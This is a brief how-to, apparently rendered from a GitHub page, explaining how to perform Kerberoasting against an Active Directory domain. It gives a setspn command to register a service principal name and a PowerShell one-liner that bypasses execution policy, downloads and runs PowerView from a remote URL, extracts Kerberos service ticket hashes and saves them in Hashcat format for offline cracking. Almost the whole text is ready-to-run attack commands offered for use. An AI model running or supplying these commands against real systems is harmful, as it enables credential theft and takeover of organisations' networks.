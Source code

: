 How to perform Kerberoasting.

Register SPN 

setspn -s http/dc.lab:80 <user_name>

Perform Kerberosting using Powerview Powershell script

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/Modules/powerview.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash.txt"
